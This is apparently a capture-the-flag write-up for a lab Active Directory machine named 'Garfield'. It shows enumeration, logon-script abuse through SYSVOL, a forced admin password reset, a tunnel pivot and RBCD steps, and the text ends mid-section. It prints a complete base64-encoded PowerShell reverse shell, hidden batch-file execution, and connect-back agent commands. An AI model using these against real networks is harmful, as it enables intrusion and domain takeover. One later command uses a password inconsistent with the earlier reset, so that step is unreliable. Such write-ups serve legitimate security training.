# Garfield

```text
Difficulty: Hard  
OS: Windows  
Services: Kerberos, LDAP/LDAPS, SMB, WinRM
```

## Summary of Attack Chain

| Step | User / Access          | Technique Used                          | Result                                                                                                    |
| :--: | :--------------------- | :-------------------------------------- | :-------------------------------------------------------------------------------------------------------- |
|   1  | j.arbuckle             | **Active Directory Enumeration**        | Enumerated domain objects and discovered `WRITE` privileges over the `Liz Wilson` account.                |
|   2  | j.arbuckle             | **ACL Abuse (`scriptPath`)**            | Uploaded payload to `SYSVOL` and modified `Liz Wilson`'s login script to trigger reverse shell execution. |
|   3  | l.wilson               | **Password Reset (ADSI)**               | Leveraged delegated privileges to reset password for `l.wilson_adm`.                                      |
|   4  | l.wilson_adm           | **Remote Access (User Flag)**           | Authenticated to the domain controller using **Evil-WinRM** and retrieved **user.txt**.                   |
|   5  | l.wilson_adm           | **Network Pivoting**                    | Established a Layer-3 tunnel to the isolated subnet `192.168.100.0/24` using **Ligolo-ng**.               |
|   6  | l.wilson_adm           | **RBCD Misconfiguration Abuse**         | Added attacker machine `z0n$` and modified delegation settings on `RODC01$`.                              |
|   7  | z0n$                   | **Kerberos S4U Impersonation**          | Forged service ticket impersonating `Administrator` for the `cifs` service on `RODC01`.                   |
|   8  | Administrator (RODC01) | **Credential Extraction (SYSTEM)**      | Obtained `SYSTEM` shell using **Impacket** `psexec.py` and dumped `krbtgt_8245` AES key via **Mimikatz**. |
|   9  | Administrator (RODC01) | **Replication Policy Modification**     | Modified `msDS-RevealOnDemandGroup` to allow RODC caching of Domain Admin credentials.                    |
|  10  | Administrator (RODC01) | **RODC Golden Ticket Forgery**          | Used **Rubeus** with extracted `krbtgt` key to forge a valid Kerberos TGT.                                |
|  11  | Administrator (DC01)   | **Pass-the-Ticket / Domain Compromise** | Authenticated to `DC01` via Evil-WinRM using the forged ticket and retrieved **root.txt**.                |



# Offensive Operations

## Reconnaisance 

## Target Information
* **IP Address:** 10.XXX.XXX.XXX
* **Hostname:** DC01
* **Domain:** garfield.htb
* **Operating System:** Microsoft Windows
* **System Role:** Active Directory Domain Controller


[Nmap Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Garfield/nmap_results.nmap "Results")

## Key Findings & Attack Surface

Based on the exposed services, the target is definitively a Domain Controller for the `garfield.htb` domain. 

**1. Core Active Directory Services**
* **Ports 88 (Kerberos) & 464 (kpasswd5):** Confirms Kerberos authentication is in use. Useful for user enumeration (Kerbrute), AS-REP Roasting, and Kerberoasting.
* **Ports 389, 636, 3268, 3269 (LDAP/LDAPS):** Exposes the directory. Port 389 allows for potential anonymous binds or LDAP enumeration to extract domain objects, users, and group policies.
* **Port 53 (DNS):** Useful for zone transfer attempts (`AXFR`) or DNS enumeration to find other hosts in the domain.

**2. File Sharing & Remote Procedure Calls**
* **Ports 139 & 445 (SMB):** SMB is active, though the Nmap script indicates SMB2 negotiation failed. This is the primary vector for null session checks, share enumeration (`crackmapexec` / `smbclient`), and checking for vulnerabilities like ZeroLogon if applicable.
* **Ports 135 & 593 (RPC):** Standard Windows RPC endpoint mappers. Can be targeted for anonymous RPC binds to enumerate users or network interfaces.

**3. Remote Management & Access**
* **Port 5985 (WinRM):** Windows Remote Management over HTTP is open. If valid credentials are obtained, this provides a direct, highly stable remote PowerShell session (e.g., using Evil-WinRM).
* **Port 3389 (RDP):** Remote Desktop Protocol is available. The SSL certificate confirms the hostname (`DC01.garfield.htb`). 

## Recommended Next Steps
1. Add the domain and hostname to your local hosts file:
   `echo "10.XXX.XXX.XXX garfield.htb DC01.garfield.htb" | sudo tee -a /etc/hosts`

   


2. Perform an SMB null session check and share enumeration.
3. Attempt an anonymous LDAP bind to map the domain structure and user list using tools like `ldapsearch` or `BloodHound-python`.
4. Validate a generated user list against Kerberos (Port 88) to check for valid accounts and AS-REP roastable users.

## Initial Access & Enumeration

1. Obtain valid credentials for the user Jon Arbuckle:
   * Username: `j.arbuckle`
   * Password: `Th1sD4mnC4t!@1978`
2. Prepare the local system by mapping the target IP to the hostname and synchronizing the clock to prevent Kerberos authentication failures:
   * `sudo nano /etc/hosts` (Add: `<TARGET_IP> garfield.htb`)
   * `sudo ntpdate 10.XXX.XXX.XXX`
3. Enumerate domain users and SMB shares using the obtained credentials:
   * `crackmapexec smb garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --users`

   
   [users.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Garfield/users.txt "Results")


4. Collect Active Directory object and ACL data for offline mapping:
   * `bloodhound-python -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -ns 10.XXX.XXX.XXX -d garfield.htb -c All`

   

5. Query the domain controller directly to identify objects over which the compromised user has writable control:
   * `bloodyAD --host garfield.htb -d garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' get writable`
6. Confirm the identified attack path, specifically the WRITE permissions over the user `Liz Wilson`, using a BloodHound Cypher query:
   * `MATCH p=(u:User)-[r:GenericWrite|WriteDacl|WriteOwner|Owns|AddKeyCredentialLink|ForceChangePassword|AddMember]->(t:User) RETURN p`

   

   

   

   

## Lateral Movement via ACL Abuse (scriptPath)

### Vulnerability Discovered
* **Vulnerability:** Arbitrary Attribute Modification (`scriptPath`)
* **Details:** Based on the previously identified `WRITE` permissions over the `Liz Wilson` Active Directory object, it is possible to modify user attributes. Specifically, the `scriptPath` attribute can be abused. This attribute dictates a logon script that executes automatically when the target user logs into the domain.

### Exploitation Steps

**1. Payload Generation**
First, a PowerShell reverse shell is crafted and encoded in Base64 to bypass basic execution restrictions and simplify payload delivery. Ensure `<YOUR_TUN0_IP>` is replaced with the local attacker IP address.

```bash
echo '$client = New-Object System.Net.Sockets.TCPClient("<YOUR_TUN0_IP>",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t UTF-16LE | base64 -w0
```




**2. Script Creation**
Create a batch file named `printerDetect.bat` that serves as a wrapper to execute the encoded PowerShell payload silently. 

```bash
cat > printerDetect.bat << EOF
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Enc <PASTE_YOUR_BASE64_STRING_HERE>
EOF
```

[printerDetect.bat](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Garfield/printerDetect.bat "Results")



**3. Payload Delivery**
Upload the batch file to a globally accessible SMB share on the domain controller, specifically the `SYSVOL` directory where logon scripts are traditionally stored.

```bash
smbclient //10.XXX.XXX.XXX/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978'

smb: \> cd garfield.htb\scripts\
smb: \garfield.htb\scripts\> put printerDetect.bat
smb: \garfield.htb\scripts\> exit
```




**4. Execution and Trigger**
Set up a Netcat listener on the specified port to catch the incoming reverse shell connection.

```bash
nc -lvnp 9001
```

Finally, utilize `bloodyAD` to modify the `scriptPath` attribute for `Liz Wilson`. Setting this value to `printerDetect.bat` ensures the script is executed by the system during the target user's next logon event.

```bash
bloodyAD --host 10.XXX.XXX.XXX -d garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" scriptPath -v printerDetect.bat
```


## Privilege Escalation

### Local Enumeration & Vulnerability Discovered
* **Vulnerability:** Excessive Privileges (Account Takeover via Password Reset)
* **Details:** Upon gaining initial access as `l.wilson`, enumeration reveals that this standard user account possesses the authority to modify the password of its associated administrative counterpart, `l.wilson_adm`.

### Exploitation Steps
To exploit this misconfiguration, PowerShell and Active Directory Service Interfaces (ADSI) were utilized directly from the established reverse shell to force a password reset on the administrative account.

**1. Password Reset Execution**
The following PowerShell commands instantiate the ADSI object for the `l.wilson_adm` account, assign a new password, and commit the changes to the domain infrastructure.

```powershell
PS C:\Windows\system32>whoami /all

USER INFORMATION
-

User Name         SID                                          
================= =============================================
garfield\l.wilson S-1-5-21-2502726253-3859040611-225969357-3105

GROUP INFORMATION
--

Group Name                                  Type             SID          Attributes                                        
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users                Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                          Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                               Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                       Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448                                                    

PRIVILEGES INFORMATION
-

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

USER CLAIMS INFORMATION
--

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
PS C:\Windows\system32> $user = [ADSI]"LDAP://CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb"
PS C:\Windows\system32> $user.SetPassword("Garfield_HTB_Admin_2026!@#")
PS C:\Windows\system32> $user.CommitChanges()
```



*(Note: While a standard `net user l.wilson_adm <password> /domain` command is an alternative, the ADSI method avoids potential command-line logging and directly interacts with LDAP).*

**2. Credential Verification**
The newly set credentials were validated against the Domain Controller using `crackmapexec` from the attacker infrastructure to confirm successful authentication and verify the account's validity.

```bash
crackmapexec smb 10.XXX.XXX.XXX -u 'l.wilson_adm' -p 'Garfield_HTB_Admin_2026!@#'
```

### Proof of Concept
The output below confirms that the password reset was successful and the `l.wilson_adm` credentials are now valid for authentication against the target.

```text
┌──(z0n㉿0x0z0n)-[~/z0n/z0n/posts/Garfield]
└─$ crackmapexec smb 10.XXX.XXX.XXX -u 'l.wilson_adm' -p 'Garfield_HTB_Admin_2026!@#'
SMB         10.XXX.XXX.XXX  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:False)
SMB         10.XXX.XXX.XXX  445    DC01             [+] garfield.htb\l.wilson_adm:Garfield_HTB_Admin_2026!@# 
```

## System Access & User Flag Capture

### Access Execution
With the `l.wilson_adm` credentials successfully reset and validated, remote access to the target was established utilizing Windows Remote Management (WinRM). 

**Command Executed:**
```bash
evil-winrm -i 10.XXX.XXX.XXX -u 'l.wilson_adm' -p 'Garfield_HTB_Admin_2026!@#'
```

### Proof of Concept
Upon obtaining the interactive remote shell, the directory was navigated to the user's Desktop to locate and read the initial user flag.

```text
Evil-WinRM shell v3.9

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\l.wilson_adm\Desktop> ls

    Directory: C:\Users\l.wilson_adm\Desktop

Mode                LastWriteTime         Length Name
-                -          -
-ar         4/5/2026   5:59 AM             34 user.txt

*Evil-WinRM* PS C:\Users\l.wilson_adm\Desktop> cat user.txt
7836c4XXXXXXXXXXXXXXXXXXXXXXX
```




### Post-Exploitation Preparation
To facilitate further enumeration and potential privilege escalation toward the Domain Controller/RODC, the working directory was shifted to `C:\Windows\Temp`, and a secondary payload/agent was uploaded to the target.

```text
*Evil-WinRM* PS C:\Users\l.wilson_adm\Desktop> cd C:\Windows\Temp
*Evil-WinRM* PS C:\Windows\Temp> upload agent.exe
```

## Network Pivoting & Internal Enumeration

### Network Discovery
Following successful authentication as `l.wilson_adm` on the primary target, further enumeration revealed the existence of an isolated internal network segment (`192.168.100.0/24`). This subnet houses a Read-Only Domain Controller (RODC01) at the IP address `192.168.100.2`. To interact with this internal network, a pivot through the compromised host (DC01) was required.

### Pivot Setup (Ligolo-ng)
`Ligolo-ng` was utilized to establish a stable tunnel, routing traffic from the attacker infrastructure into the isolated subnet.

**1. Attacker Interface Configuration**
A dedicated TUN interface was created and brought online on the attacker machine to handle the proxied traffic.

```bash
sudo ip tuntap add user z0n mode tun ligolo
sudo ip link set ligolo up
```


**2. Proxy Initialization**
The Ligolo-ng proxy server was started on the attacker machine to listen for incoming agent connections.

```bash
./proxy -selfcert
```

**3. Agent Execution**
The previously uploaded agent executable was executed on the compromised host, establishing a reverse connection back to the attacker's Ligolo-ng proxy.

```powershell
C:\Windows\Temp\agent.exe -connect <YOUR_TUN0_IP>:11601 -ignore-cert
```

### Tunnel Initialization & Routing

**1. Session Activation**
Within the Ligolo-ng proxy interface, the incoming session from `l.wilson_adm@DC01` was selected, and the tunnel was initiated.

```text
ligolo-ng » session
? Specify a session : 1 - GARFIELD\l.wilson_adm@DC01 - 10.XXX.XXX.XXX:53657 - 00155d0bdd00
[Agent : GARFIELD\l.wilson_adm@DC01] » start
INFO[0030] Starting tunnel to GARFIELD\l.wilson_adm@DC01 (00155d0bdd00) 
```

**2. Route Configuration**
A static route was added to the attacker machine's routing table, directing all traffic destined for the `192.168.100.0/24` subnet through the active `ligolo` interface.

```bash
sudo ip route add 192.168.100.0/24 dev ligolo
```




### Internal Host Enumeration (RODC01)

With the pivot established, direct interaction with RODC01 (`192.168.100.2`) was possible using the compromised administrative credentials.

**1. Access Execution**
```bash
evil-winrm -i 192.168.100.2 -u 'l.wilson_adm' -p 'Garfield_HTB_Admin_2026!@#'
```





**2. Privilege Enumeration**
Initial enumeration of the account's privileges on RODC01 revealed a critical permission: `SeMachineAccountPrivilege`. This privilege allows the user to add new computer accounts to the domain, serving as a primary vector for Resource-Based Constrained Delegation (RBCD) attacks.

**Proof of Concept:**
```text
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> whoami /priv

PRIVILEGES INFORMATION
-

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```




## Resource-Based Constrained Delegation (RBCD) Exploitation

### Vulnerability Discovered
* **Vulnerability:** Privilege Escalation via Resource-Based Constrained Delegation (RBCD) Abuse
* **Details:** Enumeration confirmed that the `l.wilson_adm` account can be added to the `RODC Administrators` group. Members of this group possess the necessary Access Control Entries (ACEs) to modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the Read-Only Domain Controller (`RODC01$`). This misconfiguration allows an attacker to configure RBCD and impersonate a privileged account (such as `Administrator`) on the target machine.

### Exploitation Steps

**1. Group Membership Modification**
The compromised administrative account was added to the `RODC Administrators` group to inherit the privileges required to modify the target RODC computer object.

```bash
bloodyAD --host garfield.htb -u l.wilson_adm -p 'Password456!' add groupMember "RODC Administrators" l.wilson_adm
```



*Output snippet:*
```text
[+] l.wilson_adm added to RODC Administrators
```

**2. Machine Account Creation**
To facilitate the delegation attack, a new attacker-controlled machine account (`z0n$`) was provisioned within the domain. The `impacket-addcomputer` module was used for this action.

```bash
